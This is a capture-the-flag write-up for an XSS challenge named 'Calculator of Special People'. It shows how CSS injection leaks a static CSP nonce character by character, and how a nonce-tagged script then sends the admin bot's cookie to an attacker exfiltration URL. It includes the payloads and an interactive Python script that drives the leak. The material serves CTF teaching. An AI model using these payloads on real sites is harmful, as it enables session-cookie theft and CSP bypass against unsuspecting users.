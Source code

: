 ---
title: Calculator of Special People
sidebar_position: 1
description: "Steal the cookie, like how Minji steals hearts."
tags: ["XSS", "CSP", "CSS Injection"]
---


# Calculator of Special People

<ChallengeInfo
  author="dovodedomo"
  points={919}
  difficulty="Easy"
  solves={10}
  description="Steal the cookie, like how Minji steals hearts."
  chall="/files/arkavidia-2025/calculator-of-special-people/dist.zip"
/>
<FlagBox>ARKAV\{NONcE_0F_US_IS_AS_SMART_AS_ALL_OF_US\}</FlagBox>
## Chall Details 📝
| Aspects     | App         | Bot           |
| :---        | :---        | :---          |
| Language    | Node.js     | Node.js       |
| Port        | 8020        | 8021:80       |

## Goal 🏁
Steal the flag, which is placed as the admin bot's cookie.

## Endpoints 🕸️
- `/report` : The admin bot's page.  
  The `/report` page is accessible from the outside network, and it contains the flag in the form of a cookie.  
  An input text field is provided to report a url. The bot will then access the url and report back the response.  
  <u>The flag could be stolen through XSS (Cross-site scripting).</u>
  ![report endpoint](./img/calculator-of-special-people/report.png)
  :::tip
  A challenge with a flag in the form of a cookie of an admin bot is usually an **XSS challenge**.
  :::

- `/` : The main page of the calculator.  
  This page is only accessible from the local network, so you need to access it through the bot.
  ```nginx title="proxy.conf"
  server {
    listen 80;
    absolute_redirect off;

    location /report/ {
        proxy_pass http://bot/;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location / {
        deny all; # prevent access from outside network
        proxy_pass http://app:8020/;
        proxy_buffering off;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Host $host;
        proxy_set_header X-Forwarded-Port $server_port;
    }
  }
  ```
  If we analyze it locally using the provided source code, we can see that the page is protected by a CSP (Content Security Policy).
  ```html title="/app/html/index.html"
  ... snip ...
  <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{{nonce}}'; style-src 'self' 'unsafe-inline'; frame-src 'none'; object-src 'none'; base-uri 'self'; media-src 'self'; font-src 'self';">
  ... snip ...
  ```
  From the snippet above, we can conclude that the app is <u>vulnerable to CSS Injection</u>, since style-src is set to `unsafe-inline`.

  Every partnerName input is reflected to the DOM. If we could bypass the CSP, we could inject a script to steal the cookie. 
  ![calculator-of-special-people](./img/calculator-of-special-people/root.png)

## Solution 💡
  Notice how there's a `nonce` in the CSP header. Typically, `nonce` is randomized for every request.
  However, in this case, the `nonce` is static. This means that we can inject a script with the `nonce` value as the `nonce` attribute.
  
  But, how do we get the `nonce` value?
  We can get the `nonce` value by utilizing CSS Injection.  
  The `nonce` is not just located in the `meta` tag, but also hidden in the `input` field.
  ```html
  <style>
    input[name="nonce"]{display:block!important;}
    input[name="nonce"][value^="{test_prefix}"]{background:url({exfil_url}?q={test_prefix});}
  </style>'
  ```

  Using this approach, if exists a `nonce` value that starts with `{test_prefix}`, the background image will be loaded from `{exfil_url}?q={test_prefix}`.
  We can check from our server (either webhook.site or `python -m http.server 8000` + ngrok) if the request is made. If the request is made, we can extract the `nonce` value from the `q` parameter.

  Do this for enough time, and the `nonce` value will be revealed.  
  ![nonce leak](./img/calculator-of-special-people/nonce-leak.png)

  After we get the `nonce` value, we can inject a script to steal the cookie.
  ```html
  <script nonce="arvAK9">
    fetch('{exfil_url}?c='+document.cookie);
  </script>
  ```
  :::note
  `exfil_url` is the URL where the `nonce` value is exfiltrated.
  :::

  After the script is injected, the cookie will be sent to the webhook/http server.

  ![flag exfiltration](./img/calculator-of-special-people/flag-exfil.png)

## Script 💻
The following script loops through all printable ASCII characters to exfiltrate the `nonce` value.
However, the script is interactive, so you need to input whether the character is correct or not.  
You may call it semi-bruteforce, i guess?
```python
import time
import requests
import urllib.parse
import string

# ----- Injector Setup -----
base_url = ""  # Base URL of the target application
target_url = f"{base_url}/report/"
base_injection_url = "http://app:8020/"
headers = {}

charset = string.printable.strip()  # All printable ASCII characters
exfil_url = "" # URL to exfiltrate the nonce value

def send_payload(prefix, candidate):
    """Send a payload for a given character at the next position."""
    test_prefix = prefix + candidate
    css_payload = (
        f'<style>'
        f'input[name="nonce"]{{display:block!important;}}'
        f'input[name="nonce"][value^="{test_prefix}"]{{background:url({exfil_url}?q={test_prefix});}}'
        f'</style>'
    )
    injection = base_injection_url + "?partnerName=" + urllib.parse.quote(css_payload)
    data = {"url": injection}

    print(f"[*] Trying candidate '{candidate}' (prefix: {test_prefix})")
    try:
        resp = requests.post(target_url, headers=headers, data=data, timeout=5)
        print(f"    Sent payload; status: {resp.status_code}")
    except Exception as e:
        print(f"    Error sending payload for '{candidate}': {e}")

    time.sleep(1)  # 1-second delay to prevent rate limiting

# Loop to keep testing different prefixes
while True:
    prefix = input("\n[?] Enter known prefix (or leave empty to exit): ").strip()
    if not prefix:
        print("[-] Exiting.")
        break

    for candidate in charset:
        send_payload(prefix, candidate)

        # Ask for user input before proceeding
        user_input = input(f"[?] Was '{candidate}' correct? (y/n): ").strip().lower()
        if user_input == 'y':
            prefix += candidate  # Append the correct character
            print(f"[+] Updated prefix: {prefix}")
            break  # Move to the next position
        elif user_input == 'n':
            continue  # Try the next candidate

    print(f"[*] Current prefix: {prefix} - Proceeding to next character.")
```